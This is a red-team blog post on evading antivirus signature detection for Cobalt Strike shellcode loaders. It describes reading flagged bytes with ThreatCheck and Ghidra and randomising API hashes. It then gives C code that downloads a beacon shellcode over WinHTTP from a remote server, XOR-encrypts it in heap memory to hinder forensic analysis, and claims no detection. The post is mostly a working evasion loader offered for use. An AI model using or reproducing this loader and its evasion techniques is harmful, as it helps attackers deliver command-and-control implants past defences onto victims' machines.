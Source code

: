 ```yaml
---
title: Shellcodes are dead, long live Fileless Shellcodes
updated: 2023-02-05 22:07
---
```


Recently I was developing a simple Shellcode Loader which uses Callbacks as an alternative of Shellcode execution. While it bypasses every runtime scanning, it failed to bypass the signature detection. So I fired up [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) to identify the bad bytes:

![bad_bytes_threatcheck](https://cdn-images-1.medium.com/max/800/1*KwJR9m_Ua3ujyGbK4GcSTw.png)

At a first glance, it is impossible to understand what exactly is getting detected so I fired up [GHidra](https://ghidra-sre.org/) to manually identify these bad bytes. I simply copied a random pattern from the ThreadCheck (**00 1F CC 07 00 15 CC 07**) and tried searching in the memeory of the compiled EXE of the malware.

![ghidra_in_action](https://cdn-images-1.medium.com/max/800/1*UroW7mIted_uXKaqoQ20og.png)

This is clearly the XORed Shellcode I implemented to my Shellcode Loader and it's getting detected as a Cobalt Strike agent by Defender. Seems like the XOR encryption routine is not strong enough againts static detection and that got me thinking: are stored shellcodes really dead (especially the ones generated from Cobalt Strike)?
I wouldn't be suprised, as currently Cobalt Strike is [the most popular C2 framework](https://twitter.com/teamcymru_S2/status/1604091964386705409?s=20) among threat actors, but something must be done to make the Shellcode great and undetectable again.

## RAW Shellcodes: What's wrong with them?

Cobalt Strike’s payloads are based on Meterpreter shellcodes and include many similarities (sometimes identical) API hashing ([x86](https://github.com/rapid7/metasploit-framework/blob/04e8752b9b74cbaad7cb0ea6129c90e3172580a2/external/source/shellcode/windows/x86/src/block/block_api.asm) and [x64](https://github.com/rapid7/metasploit-framework/blob/04e8752b9b74cbaad7cb0ea6129c90e3172580a2/external/source/shellcode/windows/x64/src/block/block_api.asm) versions).

The [default Hashes]() that Cobalt Strike uses are highly signatured; we can get a workaround to such hashes by performing a [dynamic Hash encoding](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection). If you look at the image below, the hash value `0xa779563a` is the default hash of **InternetOpenA**. If you simply google the hash, everything related to Metaploit will show up, so this hash is known to be mostly used by Cobalt Strike beacons and Meterpreter agents. Applying ror13 hashing to such hashes will drastically reduce the detection by AV vendors (to almost 0). As this is already nicely explain on [this article](https://www.huntress.com/blog/hackers-no-hashing-randomizing-api-hashes-to-evade-cobalt-strike-shellcode-detection), I'm not going to explain it much further, but the photo below gives the idea of the final result after encoding the hashes. 

![cs_hashes](https://cdn-images-1.medium.com/max/800/1*B6Q4LXM_BP9fMW4ceu_3Lg.png)

## Fileless Shellcode to the rescue

Although it is not a new thing, fileless shellcodes are a good way of avoiding signature detection is by retrieving a shellcode from the internet. This way you will solve the problem of large entropy and any possible signature detection.
On the photo below, there is a comparison between a traditional XORed encrypted shellcode and our fileless shellcode loader. Since the shellcode doesn't have to be stored on .text section, the entropy will descrease drastically (remember that ):

![entropy_comparison](https://cdn-images-1.medium.com/max/800/1*5KjsCjd7bwYLlqjf-CGB2A.png)

The full source code can be found [here](https://github.com/kleiton0x00/RemoteShellcodeExec/), but on this article I will try to break down the code for the sake of understanding.

In order to request the shellcode from the HTTP Server, I will be using  `winhttp` library. Alternatively you can use sockets, based on some researches it might be a better solution which might results on lower runtime detection. The code below is a basic one (it's shorten for understanding purposes) for requesting and retrieving the HTTP Response body of the request (which is the raw shellcode), which basically is going to be stored on a vectored array:

```c
    // Initialize WinHTTP 
    hInternet = WinHttpOpen(NULL, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    printf("[+] WinHTTP initialized\n");

    // Connect to the HTTP server 
    hHttpSession = WinHttpConnect(hInternet, L"192.168.0.60", 80, 0); //192.168.0.60:8081
    printf("[+] Connected to HTTP Server\n");

    // Open an HTTP request 
    hHttpRequest = WinHttpOpenRequest(hHttpSession, L"GET", L"/beacon.bin", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
    printf("[+] Sending HTTP GET Request\n");

    // Send a request 
    bResults = WinHttpSendRequest(hHttpRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    printf("[+] WinHTTP request sent\n");

    // Wait for the response 
    bResults = WinHttpReceiveResponse(hHttpRequest, NULL);
    printf("[+] Response retrieved\n");

    do
    {
        dwSize = 0;
        if (!WinHttpQueryDataAvailable(hHttpRequest, &dwSize))
        {
            printf("Error %u in WinHttpQueryDataAvailable.\n", GetLastError());
        }

        // Allocate space for the buffer.
        pszOutBuffer = new char[dwSize + 1];

        // No more available data 
        if (!pszOutBuffer) {
            printf("[-] No more available data");
            dwSize = 0;
        }

        // Read the Data.
        ZeroMemory(pszOutBuffer, dwSize + 1);

        if (!WinHttpReadData(hHttpRequest, (LPVOID)pszOutBuffer,
            dwSize, &dwDownloaded))
            printf("Error %u in WinHttpReadData.\n", GetLastError());
        else
            PEbuf.insert(PEbuf.end(), pszOutBuffer, pszOutBuffer + dwDownloaded);

    } while (dwSize > 0);


    char* PE = (char*)malloc(PEbuf.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuf[i];
    }

    // Close the HTTP request 
    WinHttpCloseHandle(hHttpRequest);

    // Close the session 
    WinHttpCloseHandle(hHttpSession);

    // Cleanup 
    WinHttpCloseHandle(hInternet);
```

## There is always place for encryption

Notice the following part:

```c
    char* PE = (char*)malloc(PEbuf.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuf[i];
    }
```

The shellcode retrieve from the teamserver is stored in the heap, making it easy for the blue-team to analyze the heap and discover what's inside (clearly our unencrypted shellcode):

![shellcode_written_in_memory](https://cdn-images-1.medium.com/max/800/1*UVRHyvNkqqNV5H6kdcNSHA.png)

Additionally, encrypting the shellcode in Heap is always a better idea:

```c
    char* PE = (char*)malloc(PEbuffer.size());
    for (int i = 0; i < PEbuf.size(); i++) {
        PE[i] = PEbuffer[i] ^ 0x7e; //XOR encrypted
    }

    XOR(PE, PEbuffer.size(), key);
```

Where **XOR** is a basic function which decrypts the array: 
```c
void XOR(char* data, int len, unsigned char key) {
    int i;
    for (i = 0; i < len; i++)
        data[i] ^= key;
}
```

## Profit

1. Entropy is drastically reduced.
2. No detection (Profit!)

<video src="https://i.imgur.com/U8LjkcA.mp4" controls="controls"></video>
